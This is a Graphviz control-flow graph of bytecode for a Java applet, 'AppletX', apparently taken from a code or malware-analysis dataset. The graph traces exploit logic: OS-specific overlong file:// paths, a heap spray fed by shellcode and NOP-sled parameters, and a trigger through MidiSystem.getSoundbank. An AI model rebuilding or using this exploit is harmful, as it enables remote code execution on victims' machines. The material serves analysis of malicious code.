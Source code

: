 digraph "" {
    "r0 := @this: AppletX"
    "push 47"
    "r0 := @this: AppletX"->"push 47";
    "push 303"
    "push 47"->"push 303";
    "staticinvoke <AppletX: java.lang.String repeat(char,int)>"
    "push 303"->"staticinvoke <AppletX: java.lang.String repeat(char,int)>";
    "pop"
    "staticinvoke <AppletX: java.lang.String repeat(char,int)>"->"pop";
    "push \"os.name\""
    "pop"->"push \"os.name\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "store.r r1"
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"store.r r1";
    "load.r r1"
    "store.r r1"->"load.r r1";
    "push \"win\""
    "load.r r1"->"push \"win\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"win\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt load.r r1"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r1";
    "iflt load.r r1"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "push 302"->"staticinvoke <AppletX: java.lang.String repeat(char,int)>";
    "staticinvoke <AppletX: java.lang.String repeat(char,int)>"->"store.r r1";
    "goto new java.lang.StringBuilder"
    "store.r r1"->"goto new java.lang.StringBuilder";
    "new java.lang.StringBuilder"
    "goto new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"file://\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"file://\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"file://\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Z%Z%Z%Z%Z%Z%\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Z%Z%Z%Z%Z%Z%\"";
    "push \"Z%Z%Z%Z%Z%Z%\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r1";
    "load.r r0"
    "store.r r1"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"sc\""
    "load.r r0"->"push \"sc\"";
    "virtualinvoke <AppletX: java.lang.String getParameter(java.lang.String)>"
    "push \"sc\""->"virtualinvoke <AppletX: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <AppletX: java.lang.String getParameter(java.lang.String)>"->"load.r r0";
    "push \"np\""
    "load.r r0"->"push \"np\"";
    "push \"np\""->"virtualinvoke <AppletX: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <AppletX: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"
    "virtualinvoke <AppletX: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <AppletX: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>";
    "fieldput <AppletX: java.nio.IntBuffer[] mem>"
    "virtualinvoke <AppletX: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"->"fieldput <AppletX: java.nio.IntBuffer[] mem>";
    "new java.net.URL"
    "fieldput <AppletX: java.nio.IntBuffer[] mem>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r1";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r1"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"->"pop";
    "push 10L"
    "pop"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "store.r r0"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r0";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"
    "load.r r0"->"virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>";
    "return"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"->"return";
    "iflt load.r r1"->"load.r r1";
    "push \"mac\""
    "load.r r1"->"push \"mac\"";
    "push \"mac\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r1";
    "iflt load.r r1"->"push 47";
    "push 1080"
    "push 47"->"push 1080";
    "push 1080"->"staticinvoke <AppletX: java.lang.String repeat(char,int)>";
    "staticinvoke <AppletX: java.lang.String repeat(char,int)>"->"store.r r1";
    "store.r r1"->"goto new java.lang.StringBuilder";
    "iflt load.r r1"->"load.r r1";
    "push \"nix\""
    "load.r r1"->"push \"nix\"";
    "push \"nix\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "ifge push 47"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"ifge push 47";
    "ifge push 47"->"load.r r1";
    "push \"nux\""
    "load.r r1"->"push \"nux\"";
    "push \"nux\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt return"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt return";
    "iflt return"->"push 47";
    "push 1337"
    "push 47"->"push 1337";
    "push 1337"->"staticinvoke <AppletX: java.lang.String repeat(char,int)>";
    "staticinvoke <AppletX: java.lang.String repeat(char,int)>"->"store.r r1";
    "store.r r1"->"goto new java.lang.StringBuilder";
    "iflt return"->"return";
}
